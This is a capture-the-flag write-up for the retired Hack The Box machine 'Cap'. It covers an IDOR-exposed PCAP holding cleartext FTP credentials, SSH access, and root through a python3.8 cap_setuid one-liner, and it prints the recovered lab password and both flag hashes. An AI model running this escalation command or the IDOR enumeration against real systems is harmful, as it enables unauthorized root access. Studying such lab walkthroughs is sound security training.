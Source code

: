 ```yaml
---
title: "Cap — HackTheBox Writeup"
date: 2025-09-18
author: "Basil9099"
tags: ["HTB", "Linux", "PCAP", "Privilege Escalation", "capabilities"]
categories: ["CTF Writeups"]
summary: "IDOR → PCAP recovery of credentials → SSH user shell → Linux file capabilities (getcap) → root via python3.8 capability."
images: ["/images/cap/cap.webp"]
cover:
  image: "/images/cap/cap.webp"
  alt: "Cap HTB image"
  caption: "Cap - CTF - Hack The Box"
  relative: true
  hidden: false

---
```


> ⚠️ **Spoiler warning — retired HTB machine.**
> This writeup documents my playthrough of the retired Hack The Box machine **Cap**. VPN IPs shown are HTB-assigned addresses used during the box.

---

## 🔍 Recon

Initial scan:
```bash
nmap -sV -sC -oN initial 10.129.242.125
```
![Nmap scan showing open services](/images/cap/nmap_scan.png)


While enumerating the web application I discovered an IDOR (insecure direct object reference) path under /data:
![Web application dashboard](/images/cap/dashboard.png)


**The data ID in the URL can be changed to reveal something interesting**

```firefox
http://10.129.242.125/data/0
```
Accessing the data endpoint allowed me to download a PCAP file capturing unencrypted FTP traffic.
![IDOR vulnerability](/images/cap/url_id.png)

---

## 🧩 PCAP Analysis & Credentials
I opened the PCAP in Wireshark and inspected the FTP traffic. Credentials were sent in cleartext; I recovered the following valid account:

**Nathan's Credentials**
username: nathan
password: Buck3tH4TF0RM3!
With those credentials I could log into the host as nathan (SSH).
![Wireshark - unencrypted FTP traffic](/images/cap/unencrypted_ftp_creds.png)


---

## 🖥️ Foothold (SSH as nathan)
SSH into the box:

```bash
ssh nathan@10.129.242.125
 enter password: Buck3tH4TF0RM3!
```
![SSH as Nathan](/images/cap/ssh_nathan.png)

**Found the user flag:**

```bash
cat /home/nathan/user.txt
```
"ffebb9968efc6ca3d75c8cd36357cb06"
![User flag](/images/cap/user_flag.png)

---

## 🔐 Privilege Escalation (file capabilities)
Local enumeration for Linux capabilities:

```bash
# list capabilities recursively from root (hide permission denied noise)
getcap -r / 2>/dev/null
```

**Relevant output:**

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
What this means: getcap shows POSIX file capabilities on binaries. The entry for /usr/bin/python3.8 includes cap_setuid, indicating that this binary can change its UID — it can be abused to escalate privileges without needing a password.
![Local enumeration  with getcap](/images/cap/getcap.png)


# Exploit (use with care; this is what I ran on the box):

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
![Privilege escalation](/images/cap/privilege_escalation.png)


**That spawned a root shell:**
```bash
root@cap:~# whoami
root
```
![Gained root access](/images/cap/whoami.png)

---

## 🏁 Root Flag

```bash
cat /root/root.txt
```
"9589c70870530feec969223b4baca6fb"
![Found root flag](/images/cap/root_flag.png)

---

## 🔑 Takeaways

IDORs can expose sensitive artifacts (PCAPs, backups) — always check object enumeration endpoints like /data/<id>.

PCAP analysis with Wireshark is invaluable for recovering plaintext credentials when services are unencrypted (FTP/HTTP basic auth).

Linux file capabilities (checked via getcap) often provide escalation paths; cap_setuid on an interpreter (python) is a high-impact finding.

When a binary has cap_setuid, carefully consider executing it to elevate privileges — prefer non-interactive, audited commands if available.

---

## 📚 Resources & Notes

getcap / setcap documentation (man pages)

Wireshark — follow TCP stream for FTP credentials

CAPABILITY reference: Linux capabilities cap_setuid, cap_net_bind_service, etc.
